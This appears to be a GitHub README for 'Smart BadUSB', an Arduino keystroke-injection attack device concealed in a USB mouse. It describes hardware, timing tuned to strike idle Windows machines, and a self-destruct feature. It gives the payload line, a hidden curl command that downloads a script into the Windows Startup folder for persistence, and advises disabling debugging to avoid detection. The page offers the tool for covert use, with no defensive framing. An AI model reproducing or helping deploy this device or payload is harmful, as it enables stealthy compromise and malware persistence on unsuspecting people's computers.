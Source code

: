 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a photodiode to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Photodiode</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>SmartBadUSB_Program_Arduino_Pro_Micro.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
